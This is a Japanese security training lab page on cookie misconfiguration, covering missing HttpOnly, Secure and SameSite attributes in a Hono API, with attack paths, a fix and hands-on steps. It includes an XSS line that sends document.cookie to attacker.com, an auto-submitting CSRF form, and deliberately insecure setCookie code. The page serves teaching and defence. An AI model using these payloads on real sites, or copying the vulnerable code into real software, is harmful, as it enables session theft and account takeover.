


# Cookie Security Misconfiguration — Cookie属性の不備が招く複数の攻撃経路

> セッション Cookie に `HttpOnly`、`Secure`、`SameSite` 属性が設定されていないと、JavaScript からの読み取り、HTTP 平文通信での漏洩、クロスサイトでの送信が可能になり、各種攻撃の土台となってしまう問題を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | セッション Cookie にセキュリティ属性（`HttpOnly`、`Secure`、`SameSite`）が設定されておらず、XSS によるセッション窃取、HTTP 通信での傍受、CSRF 攻撃での自動送信が可能になる |
| **攻撃例** | `HttpOnly` なし → `document.cookie` でセッション ID を取得。`Secure` なし → HTTP 通信で Cookie が平文送信。`SameSite` なし → 外部サイトからのリクエストに Cookie が自動付与 |
| **技術スタック** | Hono API + Cookie |
| **難易度** | ★☆☆ 入門 |
| **前提知識** | HTTP Cookie の基本（`Set-Cookie` ヘッダー）、ブラウザの DevTools の使い方 |

---

## この脆弱性を理解するための前提

### Cookie の仕組みとセキュリティ属性

Cookie はサーバーが `Set-Cookie` ヘッダーでブラウザに保存させるデータで、以降のリクエストに自動付与される。Cookie には本体の値に加えて、**セキュリティ属性** を設定できる:

```
Set-Cookie: session_id=abc123; Path=/; HttpOnly; Secure; SameSite=Strict
```

| 属性 | 役割 |
|------|------|
| `HttpOnly` | JavaScript の `document.cookie` から読み取れなくする |
| `Secure` | HTTPS 通信時のみ Cookie を送信する（HTTP では送信しない） |
| `SameSite` | クロスサイトリクエスト（別ドメインからの遷移）での Cookie 送信を制御する |

これらの属性は **セットしなければ保護が無効** になる。つまり、何も指定しないとすべての保護が欠如した状態になる。

### どこに脆弱性が生まれるのか

問題は、開発者がセキュリティ属性を設定せずに Cookie を発行してしまう場合に発生する。属性なしの Cookie はブラウザの保護機能が一切適用されず、複数の攻撃経路に対して無防備になる。

```typescript
// ⚠️ この部分が問題 — セキュリティ属性が一切設定されていない
setCookie(c, 'session_id', sessionId, {
  path: '/',
  // httpOnly なし → document.cookie でアクセス可能（XSS で窃取される）
  // secure なし → HTTP 平文通信で Cookie が送信される（傍受される）
  // sameSite なし → 外部サイトからのリクエストにも Cookie が付く（CSRF に利用される）
});
```

属性を設定していないことは「安全ではない」という明示的な宣言ではなく、「保護を意識していない」という暗黙のデフォルトだが、その結果は同じ — Cookie が無防備な状態で送受信される。

---

## 攻撃の仕組み



### 攻撃のシナリオ

Cookie 属性の不備は、単独の攻撃手法ではなく **他の攻撃を可能にする土台** となる。以下の3つの攻撃経路が同時に存在する:

#### 経路 1: `HttpOnly` なし → XSS によるセッション窃取

1. **攻撃者** が XSS 脆弱性を利用してスクリプトを注入する

   ```html
   <script>fetch('http://attacker.com/steal?c='+document.cookie)</script>
   ```

2. **被害者** がそのページを閲覧すると、スクリプトが `document.cookie` からセッション ID を読み取り、攻撃者のサーバーに送信する

   `HttpOnly` 属性がないため、JavaScript は Cookie に自由にアクセスできる。

3. **攻撃者** が窃取したセッション ID で被害者になりすます

#### 経路 2: `Secure` なし → ネットワーク傍受

1. **被害者** が公衆 Wi-Fi などの安全でないネットワークに接続する

2. **攻撃者** がネットワークを傍受し、HTTP リクエストの Cookie ヘッダーからセッション ID を読み取る

   ```
   GET /api/profile HTTP/1.1
   Host: target.com
   Cookie: session_id=abc123    ← 平文で送信されるため傍受可能
   ```

   `Secure` 属性がないため、HTTP（非暗号化）通信でも Cookie が送信される。

3. **攻撃者** が傍受したセッション ID で被害者になりすます

#### 経路 3: `SameSite` なし → CSRF 攻撃

1. **攻撃者** が罠ページを用意する

   ```html
   <form action="http://target.com/api/change-email" method="POST">
     <input name="email" value="attacker@evil.com" />
   </form>
   <script>document.forms[0].submit()</script>
   ```

2. **被害者** が罠ページを開くと、フォームが自動送信される。`SameSite` 属性がないため、クロスサイトリクエストにも Cookie が自動付与される

3. **サーバー** が正規のリクエストとして処理し、メールアドレスが変更されてしまう

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| `HttpOnly` 属性の欠如 | Cookie が JavaScript API（`document.cookie`）からアクセス可能なままであり、XSS 攻撃で窃取できる |
| `Secure` 属性の欠如 | HTTP（非暗号化）通信でも Cookie が送信されるため、ネットワーク傍受で Cookie が漏洩する |
| `SameSite` 属性の欠如 | クロスサイトリクエストに Cookie が自動付与されるため、CSRF 攻撃が成立する |

### 被害の範囲

- **機密性**: セッション ID の漏洩により、攻撃者が被害者のアカウントの全データにアクセスできる。3つの異なる経路（XSS、傍受、CSRF）でセッション ID が漏洩・悪用される
- **完全性**: 窃取したセッションや CSRF を利用して、被害者のアカウントでデータの改ざん、設定変更、不正な操作が実行される
- **可用性**: アカウント乗っ取りにより、被害者がサービスを利用できなくなる

---

## 対策



### 根本原因

Cookie のセキュリティ属性が **デフォルトで無効** であり、開発者が明示的に設定しなければ保護が適用されないことが根本原因。セッション Cookie のような機密性の高い Cookie には、すべてのセキュリティ属性を適切に設定する必要がある。

### 安全な実装

Cookie 発行時に3つのセキュリティ属性をすべて設定する。各属性はそれぞれ異なる攻撃経路を遮断するため、1つでも欠けるとその経路が無防備になる。

- `HttpOnly`: ブラウザが `document.cookie` API のアクセスからこの Cookie を **除外** する。JavaScript からは Cookie が「存在しない」ように見えるため、XSS が発生しても Cookie を読み取れない
- `Secure`: ブラウザが HTTPS 通信時のみ Cookie を送信する。HTTP リクエストには Cookie を付与しないため、平文通信の傍受では Cookie を取得できない
- `SameSite=Strict`: ブラウザが **クロスサイトリクエスト** に Cookie を付与しない。外部サイトから対象サイトへの遷移やフォーム送信では Cookie が送られないため、CSRF が成立しない

```typescript
// ✅ 全セキュリティ属性を設定 — 3つの攻撃経路をすべて遮断
setCookie(c, 'session_id', sessionId, {
  path: '/',
  httpOnly: true,       // XSS による Cookie 窃取を防止
  secure: true,         // HTTP 平文通信での Cookie 漏洩を防止
  sameSite: 'Strict',   // CSRF 攻撃での Cookie 自動送信を防止
});
```

#### 脆弱 vs 安全: コード比較

```diff
  setCookie(c, 'session_id', sessionId, {
    path: '/',
-   // セキュリティ属性なし — 全攻撃経路が無防備
+   httpOnly: true,       // XSS 対策
+   secure: true,         // 傍受対策
+   sameSite: 'Strict',   // CSRF 対策
  });
```

脆弱なコードではセキュリティ属性が何も設定されていないため、Cookie は XSS、傍受、CSRF のすべてに対して無防備。安全なコードでは3つの属性により、それぞれの攻撃経路がブラウザレベルで遮断される。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| `HttpOnly` + `Secure` + `SameSite` の全設定 | 根本対策 | セッション Cookie には3つすべてを設定する。1つでも欠けると対応する攻撃経路が残る |
| Cookie のプレフィックス (`__Host-`, `__Secure-`) | 多層防御 | `__Host-` プレフィックスを付けると、`Secure` + `Path=/` + ドメイン指定なしが強制される。サブドメインからの上書き攻撃を防ぐ |
| HSTS (HTTP Strict Transport Security) | 多層防御 | ブラウザに HTTPS 通信を強制し、初回接続時の HTTP 経由での Cookie 漏洩を防ぐ |
| Cookie の有効期限設定 | 多層防御 | `Max-Age` や `Expires` を適切に設定し、セッション Cookie の有効期間を制限する |
| セキュリティヘッダーの監視 | 検知 | `Set-Cookie` ヘッダーにセキュリティ属性が欠けていないか、CI/CD やセキュリティスキャンで自動チェックする |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: Cookie にセキュリティ属性がない状態で、`document.cookie` から Cookie を読み取れること、各属性の欠如がどのような影響を持つかを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. ブラウザで `http://localhost:5173` にアクセスし、脆弱なエンドポイントでログインする

3. DevTools でCookie の属性を確認する

   - DevTools → Application → Cookies → `http://localhost:3000` を開く
   - `session_id` Cookie の `HttpOnly`、`Secure`、`SameSite` 列を確認する
   - すべてが未設定（空欄 / None）であることを確認

4. JavaScript から Cookie を読み取る

   ```javascript
   // DevTools Console で実行
   document.cookie
   // → "session_id=abc123" が表示される
   ```

5. 結果を確認する

   - `document.cookie` でセッション ID が読み取れる
   - **この結果が意味すること**: XSS が存在すれば、この Cookie は攻撃者のサーバーに送信できる
   - HTTP 通信の場合、ネットワーク傍受でも Cookie が見える
   - 外部サイトからのリクエストにも Cookie が自動付与される

### Step 2: 安全バージョンで防御を確認

**ゴール**: セキュリティ属性が設定された Cookie では、`document.cookie` から読み取れないことを確認する

1. 安全なエンドポイントでログインする

   ```bash
   curl -v http://localhost:3000/api/labs/cookie-manipulation/secure/login \
     -H "Content-Type: application/json" \
     -d '{"username": "alice", "password": "alice123"}'
   ```

2. レスポンスの `Set-Cookie` ヘッダーを確認する

   - `HttpOnly`、`Secure`、`SameSite=Strict` が付与されていることを確認

3. DevTools で Cookie の属性を確認する

   - Application → Cookies で `session_id` の `HttpOnly` にチェックが付いていることを確認

4. JavaScript から Cookie を読み取りを試みる

   ```javascript
   // DevTools Console で実行
   document.cookie
   // → session_id が表示されない（HttpOnly のため除外される）
   ```

5. コードの差分を確認する

   - `backend/src/labs/step04-session/cookie-manipulation.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `setCookie` のオプションオブジェクトに3つの属性を追加

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] `HttpOnly`、`Secure`、`SameSite` のそれぞれが防ぐ攻撃は何か
- [ ] なぜ3つの属性をすべて設定する必要があるのか（1つだけでは不十分な理由）
- [ ] `SameSite=Strict` と `SameSite=Lax` の違いは何か（どのリクエストで Cookie が送信されるか）
- [ ] Cookie 属性はブラウザのどの処理段階で適用されるか（サーバー側の処理には影響しないことを理解しているか）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/cookie-manipulation/vulnerable/login` |
| 安全エンドポイント | `/api/labs/cookie-manipulation/secure/login` |
| バックエンド | `backend/src/labs/step04-session/cookie-manipulation.ts` |
| フロントエンド | `frontend/src/features/step04-session/pages/CookieManipulation.tsx` |

- 脆弱版では `setCookie` にセキュリティ属性を一切指定しない
- 安全版では `httpOnly: true`、`secure: true`、`sameSite: 'Strict'` をすべて設定する
- DevTools の Application → Cookies タブで属性の有無を視覚的に比較できるようにする
- フロントエンドページに `document.cookie` の実行結果をリアルタイムで表示するパネルを設ける

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [セッションハイジャック](./session-hijacking.md) | `HttpOnly` なしの Cookie は XSS で窃取可能。Cookie 属性の不備がセッションハイジャックの直接的な原因となる |
| [CSRF](./csrf.md) | `SameSite` なしの Cookie はクロスサイトリクエストで自動送信される。CSRF 攻撃の成立条件に直結する |
| [セッション固定](./session-fixation.md) | Cookie 属性の不備はセッション ID の注入・漏洩の経路を広げ、セッション固定攻撃を容易にする |

---

## 参考資料

- [OWASP - Secure Cookie Attribute](https://owasp.org/www-community/controls/SecureCookieAttribute)
- [CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag](https://cwe.mitre.org/data/definitions/1004.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [CWE-1275: Sensitive Cookie with Improper SameSite Attribute](https://cwe.mitre.org/data/definitions/1275.html)
